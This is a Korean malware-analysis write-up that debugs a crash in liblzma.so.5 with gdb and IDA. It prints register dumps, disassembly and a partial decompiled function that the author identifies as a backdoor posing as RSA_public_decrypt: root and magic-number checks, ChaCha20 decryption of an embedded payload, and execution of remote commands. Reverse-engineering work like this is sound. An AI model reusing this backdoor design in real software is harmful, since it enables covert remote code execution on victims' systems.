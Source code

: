 <br />

`frame 0`의 `./lib/x86_64-linux-gnu/liblzma.so.5`에서 크래시가 발생하였을 것으로 추정할 수 있다. `rip` 부분의 어셈블리를 살펴보면, `call *%rax`가 문제가 발생한 파트인 듯 하다.

```cpp
(gdb) info frame
Stack level 0, frame at 0x7ffcc6601ea0:
 rip = 0x0; saved rip = 0x7f4a18c8f88f
 called by frame at 0x7ffcc6601fd0
 Arglist at 0x7ffcc6601e90, args: 
 Locals at 0x7ffcc6601e90, Previous frame's sp is 0x7ffcc6601ea0
 Saved registers:
  rip at 0x7ffcc6601e
(gdb) x/10i 0x7f4a18c8f88f-4
   0x7f4a18c8f88b:      mov    %esp,%edi
   0x7f4a18c8f88d:      call   *%rax
   0x7f4a18c8f88f:      mov    0xe8(%rsp),%rbx
   0x7f4a18c8f897:      xor    %fs:0x28,%rbx
   0x7f4a18c8f8a0:      jne    0x7f4a18c8f975
   0x7f4a18c8f8a6:      add    $0xf8,%rsp
   0x7f4a18c8f8ad:      pop    %rbx
   0x7f4a18c8f8ae:      pop    %rbp
   0x7f4a18c8f8af:      pop    %r12
   0x7f4a18c8f8b1:      pop    %r13
```

<br />


## 크래시 분석

`info proc map`을 통해 크래시 시점의 `rip`가 `Start Addr + 0x988F`임을 알 수 있다.

```cpp
(gdb) info proc mappings
Mapped address spaces:
      Start Addr           End Addr       Size     Offset objfile
      ...
      0x7f4a18c86000     0x7f4a18c8a000     0x4000        0x0 / (deleted)
      ...
```

<br />

`ida`로 `liblzma.so.5`를 연 후 `Start Addr + 0x988F` 부분에 앞서 찾았던 `
(gdb) x/10i 0x7f4a18c8f88f-4`와 동일한 어셈블리 파트가 존재한다. 이 부분의 디스어셈블리를 보면 아래와 같다. `RSA_public_decrypt`를 빙자한 백도어처럼 생겼다. 동작 구조를 대략적으로 요약하면 다음과 같다. 
1. `getuid()`, `0xC5407A48` : root 권한 및 백도어 매직 넘버 검사 
2. `sub_93F0`, `sub_9520` : `chacha20` `key, nonce` 초기화 및 `&unk_23960` 복호화
3.  `v13()` : 복호화된 데이터(백도어를 통한 원격 명령) 실행
4. `return v10(a1, a2, a3, a4, a5);` : 크래시가 발생한 포인트

```cpp
__int64 __fastcall sub_9820(unsigned int a1, _DWORD *a2, __int64 a3, __int64 a4, unsigned int a5)
{
  const char *v9; // rsi
  void *v10; // rax
  void *v12; // rax
  void (*v13)(void); // [rsp+8h] [rbp-120h]
  char v14[200]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v15; // [rsp+E8h] [rbp-40h]

  v15 = __readfsqword(0x28u);
  v9 = "RSA_public_decrypt";
  if ( !getuid() )
  {
    if ( *a2 == 0xC5407A48 )
```